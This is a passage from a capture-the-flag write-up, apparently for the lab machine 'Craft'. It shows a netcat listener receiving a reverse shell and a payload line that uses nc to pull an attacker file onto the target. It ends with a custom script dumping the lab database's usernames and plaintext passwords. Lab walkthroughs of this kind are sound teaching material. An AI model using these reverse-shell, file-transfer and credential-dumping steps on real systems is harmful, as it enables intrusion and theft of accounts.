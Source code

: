 Let's start up netcat on our end... and we have a shell.
```
$ nc -lv -p 4444
listening on [any] 4444 ...
connect to [10.10.xx.xx] from craft.htb [10.10.10.110] 45519
# ls
app.py
craft_api
dbtest.py
tests
```
<br />

## Getting User
So, a few things to note: we're logged in as root, but we can't `cat /root/root.txt`. In conclusion, we are in a jail. Let's do some digging around on the server for now, there seem to be a few interesting files.
```
# whoami
root
```
<br />

After a tiny bit of digging I ran into a file called `dbtest.py` (we ran into it earlier on the git repo too), and it seems to connect and query the database successfully. So what happens if we upload our own version that allows us to execute arbitrary queries? With a slight modification to our foothold script we can upload a file to the server. 
```python
PAYLOAD = 'nc 10.10.xx.xx 4444 > database.py'
```
```
$ nc -lv -p 4444 < database.py
listening on [any] 4444 ...
connect to [10.10.xx.xx] from craft.htb [10.10.10.110] 4220
```
<br />

Now let's list the tables for the database, and see if we can read some of the more interesting sounding ones.

```
$ nc -lv -p 4444
listening on [any] 4444 ...
connect to [10.10.xx.xx] from craft.htb [10.10.10.110] 39969
# ls
app.py
craft_api
database.py
dbtest.py
tests
# python3 database.py
 >> SELECT table_name FROM information_schema.tables
{'TABLE_NAME': 'brew'}
{'TABLE_NAME': 'user'}

...

 >> SELECT * FROM user 
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
 >> exit
# exit
```
<br />
